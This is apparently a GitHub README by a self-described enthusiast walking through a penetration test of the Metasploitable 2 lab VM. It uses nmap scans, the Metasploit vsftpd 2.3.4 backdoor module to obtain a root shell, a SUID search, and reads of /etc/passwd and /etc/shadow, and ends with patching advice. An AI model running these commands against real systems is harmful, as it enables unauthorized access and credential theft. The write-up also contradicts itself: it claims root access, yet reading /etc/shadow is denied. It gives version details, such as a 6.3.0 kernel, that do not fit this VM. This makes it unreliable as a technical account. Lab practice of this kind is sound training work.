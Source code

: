 # Penetration-Testing
**Penetration Testing and Exploitation Walkthrough**

This details the steps, tools, and techniques used to perform a penetration test on a vulnerable virtual machine. The vulnerable virtual machine is Metasploitable 2, an intentionally vulnerable linux virtual machine designed for conducting security training, testing vulnerabilities, testing security tools, etc.

**Lab Environment**

- **Attacker Machine:** Kali Linux
- **Target Machine:** Metasploitable 2 Linux
- **Target Machine IP:** 192.168.56.102
- **Network Configuration:** Host-only network adapter in VirtualBox

**Objectives**

- Identify potential vulnerabilities on the target machine.
- Exploit discovered vulnerabilities to gain unauthorized access.
- Demonstrate privilege escalation.
- Document findings and recommendations.

**1. Verify Connectivity**

**Tool:** ```ping```

Command used:

```
ping 192.168.56.102
```
**Expected Output:**
```
64 bytes from 192.168.56.102: icmp_seq=1 ttl=64 time=0.374 ms
```

**2. Initial Reconnaissance**

Tool: ```nmap```

Command used:
```
nmap -sS -sV -T4 -A 192.168.56.102
```
**Output Summary:**

- Port 21: FTP (vsftpd 2.3.4)
- Port 22: SSH
- Port 80: HTTP (Apache 2.4.29)

**3. Vulnerability Identification**

Using Metasploit Framework for further analysis:

**Command:**
```
msfconsole
search vsftpd
```

Result:

- **Exploit Identified:** exploit/unix/ftp/vsftpd_234_backdoor
- **Exploit Type:** Command Execution (Backdoor vulnerability in vsftpd 2.3.4)

**4. Exploitation**

**Steps:**

1. Loaded the identified exploit module.
```
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.56.102
run
```
2. Successful exploitation provided a root shell with UID 0.

**Outcome:**
```
[*] Command shell session 1 opened (192.168.56.101:36177 -> 192.168.56.102:6200)
UID: uid=0(root) gid=0(root)
```
**Note:** This confirms full root access to the target machine.

**5. Privilege Escalation Analysis**

Performed a search for **SUID binaries:**

**Command:**
```
find / -perm -4000 2>/dev/null
```
**Relevant Binaries Identified:**

- ```/usr/bin/sudo```
- ```/usr/bin/pkexec```
- ```/usr/bin/passwd``` 
- ```/usr/bin/chsh```

Explore kernel exploits using **searchsploit** for the running Linux kernel (6.3.0):
```
searchsploit linux kernel 6.3.0
```
**Outcome:** While no direct kernel-specific exploit was found, the existing root access from vsftpd 2.3.4 made further escalation unnecessary.
**Note:** If you don't know what kernel version your virtual machine is running on, perform this command: ```uname -a```

**6. Post-Exploitation Enumeration**

**Commands Run:**

- ```cat /etc/passwd``` (successfully listed system users)
- ```cat /etc/shadow``` (permission denied)

**Recommendations**

- Upgrade vsftpd to a patched version beyond 2.3.4.

- Restrict FTP access or disable the service entirely.

- Implement a host-based firewall to control inbound connections.

- Periodically perform security audits to identify outdated services.

**Author**

**Kelechi Okpala** - Cybersecurity Enthusiast

Contact: kelechi.okpala13@yahoo.com
